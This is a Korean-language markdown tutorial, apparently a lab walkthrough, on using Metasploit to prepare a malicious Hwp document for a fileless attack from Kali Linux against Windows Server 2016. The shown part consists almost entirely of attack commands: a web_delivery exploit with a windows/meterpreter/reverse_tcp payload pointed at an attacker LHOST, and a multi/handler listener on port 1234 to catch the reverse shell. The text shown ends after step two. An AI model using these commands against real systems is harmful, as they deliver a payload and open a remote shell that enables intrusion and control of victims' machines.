 # 메타스플로잇(Metasploit)를 사용해 악성한글문서(Hwp)만들어 파일리스(Fileless) 공격하기

- 공격 서버 :smiling_imp: : 칼리 리눅스(Kali Linux amd64)
- 공격 대상 :skull: : 윈도우 서버 2016 (Windows Server 2016)

### 1. :smiling_imp: Metasploit으로 페이로드 생성

metasploit 실행

```
msfconsole
```

![1](https://i.ibb.co/v17ZFGS/Fileless-Metasploit-hwp-1.png)

```
use exploit/multi/script/web_delivery
set target 2
set LHOST 192.168.0.0
set payload windows/meterpreter/reverse_tcp
exploit -j
```

![2](https://i.ibb.co/p1np5Wk/Fileless-Metasploit-hwp-2.png)



### 2. :smiling_imp: 메타스플로잇으로 핸들러 서버 오픈

```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.0.0
set LPORT 1234
show options
exploit
```
